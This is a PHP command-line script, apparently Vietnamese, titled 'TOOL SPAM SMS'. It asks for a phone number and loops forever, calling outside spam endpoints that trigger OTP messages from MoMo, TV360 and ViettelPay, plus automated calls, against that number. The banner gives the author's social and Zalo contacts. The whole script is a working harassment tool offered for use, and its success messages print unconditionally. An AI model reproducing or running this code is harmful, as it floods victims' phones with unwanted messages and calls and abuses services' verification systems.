       error_reporting(0);
session_start();
date_default_timezone_set('Asia/Ho_Chi_Minh');
/***[ Color ]***/
$xnhac = "\033[1;36m";
$do = "\033[1;31m";
$luc = "\033[1;32m";
$vang = "\033[1;33m";
$xduong = "\033[1;34m";
$hong = "\033[1;35m";
$trang = "\033[1;37m";
/***[ USERAGENT ]***/
$_SESSION['useragent'] = 'Mozilla/5.0 (Linux; Android 10; CPH1819) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.101 Mobile Safari/537.36';
/***[ Đánh Dấu Bản Quyền ]***/
$thanh_dep = $do."[" . $trang . "=.=" . $do . "] ".$trang."=> ";
$thanh_xau = $do."[" . $trang . "=.=" . $do . "] ";
/***[ Delay ]***/
if (strtoupper(substr(PHP_OS, 0, 3)) === 'LIN') {
    $_SESSION['load'] = 2000;
} else {
    $_SESSION['load'] = 0;
}
/***[ Banner ]***/
$banner = "
\033[1;31m████████╗████████╗ ██████╗  ██████╗ ██╗     
\033[1;37m╚══██╔══╝╚══██╔══╝██╔═══██╗██╔═══██╗██║     
\033[1;31m   ██║█████╗██║   ██║   ██║██║   ██║██║     
\033[1;37m   ██║╚════╝██║   ██║   ██║██║   ██║██║     
\033[1;31m   ██║      ██║   ╚██████╔╝╚██████╔╝███████╗
\033[1;37m   ╚═╝      ╚═╝    ╚═════╝  ╚═════╝ ╚══════╝                                           
\033[1;31m────────────────────────────────────────────────────────────
\033[1;31m[\033[1;37m-_-\033[1;31m] \033[1;37m=> \033[1;33mTOOL SPAM SMS
\033[1;31m[\033[1;37m-_-\033[1;31m] \033[1;37m=> \033[1;35mADMIN: \033[1;36mNguyễn Anh Trường
\033[1;31m[\033[1;37m-_-\033[1;31m] \033[1;37m=> \033[1;36mFB: \033[1;31mTruong14tuoiroi
\033[1;31m[\033[1;37m-_-\033[1;31m] \033[1;37m=> \033[1;32mZALO SUPPORT: \033[1;37mhttps://zalo.me/0375634851
\033[1;31m[\033[1;37m-_-\033[1;31m] \033[1;37m=> \033[1;34mYOUTUBE: \033[1;37mhttps://www.youtube.com/@truongtool4258
\033[1;31m────────────────────────────────────────────────────────────\n";
@system("clear");
/***[ Clear + Thông Số Admin ]***/
if (strtoupper(substr(PHP_OS, 0, 3)) === 'LIN') { 
    @system('clear'); 
} else { 
    @system('cls'); 
}
for($i = 0; $i < strlen($banner); $i++){echo $banner[$i];usleep(500);}
echo $thanh_dep.$luc."Nhập Số Điện Thoại: $trang";
$sdt = trim(fgets(STDIN));
$dem = 0;
echo"\033[1;31m────────────────────────────────────────────────────────────\n";
sleep(3);
while(true) {
        $momo = json_decode(file_get_contents("https://vuabuff.com/api/sp4m/momo.php?sdt=".$sdt), true);
        $dem++;
        echo "\033[1;34m[\033[1;33m".$dem."\033[1;34m] \e[1;32m⌠\e[1;33mAn Orin\e[1;32m⌡\033[1;91m ● \033[1;36m".date("H:i:s")."\033[1;31m ● \033[1;".rand(31,37)."m"." Gửi Thành Công \033[1;31m ● \033[1;37m".$sdt."\n";
        if ($check->status == "success") {
}
$tv360 = json_decode(file_get_contents("https://vuabuff.com/api/sp4m/tv360.php?phone=".$sdt), true)["errorCode"];
        $dem++;
        echo "\033[1;34m[\033[1;33m".$dem."\033[1;34m] \e[1;32m⌠\e[1;33mAn Orin\e[1;32m⌡\033[1;91m ● \033[1;36m".date("H:i:s")."\033[1;31m ● \033[1;".rand(31,37)."m"." Gửi Thành Công \033[1;31m ● \033[1;37m".$sdt."\n";
        if ($check->status == "success") {
}
$calldv = json_decode(file_get_contents("https://hangthaigiasi.com/api/call.php?sdt=".$sdt), true);
        $dem++;
        echo "\033[1;34m[\033[1;33m".$dem."\033[1;34m] \e[1;32m⌠\e[1;33mAn Orin\e[1;32m⌡\033[1;91m ● \033[1;36m".date("H:i:s")."\033[1;31m ● \033[1;".rand(31,37)."m"." Gửi Thành Công \033[1;31m ● \033[1;37m".$sdt."\n";
        if ($check->status == "success") {
}
$viettelpay = json_decode(file_get_contents("https://vuabuff.com/api/sp4m/vtmoney.php?sdt=".$sdt), true);
        $dem++;
        echo "\033[1;34m[\033[1;33m".$dem."\033[1;34m] \e[1;32m⌠\e[1;33mAn Orin\e[1;32m⌡\033[1;91m ● \033[1;36m".date("H:i:s")."\033[1;31m ● \033[1;".rand(31,37)."m"." Gửi Thành Công \033[1;31m ● \033[1;37m".$sdt."\n";
        if ($check->status == "success") {
}
        delay(30);
}
function delay ($delay){
        for($tt = $delay ;$tt>= 0;$tt--){
                print "\r\033[1;33m   Vui Lòng Đợi \033[1;31m ~>       \033[1;32m LO      \033[1;31m | $tt | "; usleep(150000);
print "\r\033[1;31m   Vui Lòng Đợi \033[0;33m   ~>     \033[0;37m LOA     \033[0;31m | $tt | "; usleep(150000);
print "\r\033[1;32m   Vui Lòng Đợi \033[0;33m     ~>   \033[0;37m LOAD    \033[0;31m | $tt | "; usleep(150000);
print "\r\033[1;34m   Vui Lòng Đợi \033[0;33m       ~> \033[0;37m LOADI   \033[0;31m | $tt | "; usleep(150000);
print "\r\033[1;35m   Vui Lòng Đợi \033[0;33m        ~>\033[0;37m LOADIN  \033[0;31m | $tt | "; usleep(150000);  
print "\r\033[1;35m   Vui Lòng Đợi \033[0;33m        ~>\033[0;37m LOADING \033[0;31m | $tt | "; usleep(150000);
print "\r\033[1;35m   Vui Lòng Đợi \033[0;33m        ~>\033[0;37m LOADING.\033[0;31m | $tt | ";usleep(150000);
print "\r                                          \r";
}
}
function chay($t = 23) { for ($x = 0; $x <= $t; $x++) {echo "\033[1;37m=\033[1;31m●";usleep(5000); } echo"\n";}
        if (strtoupper(substr(PHP_OS, 0, 3)) === 'LIN') { @system('clear'); } else { @system('cls'); }
        for($i = 0; $i < strlen($banner); $i++){echo $banner[$i];usleep($_SESSION['load']);}
        chay(35);
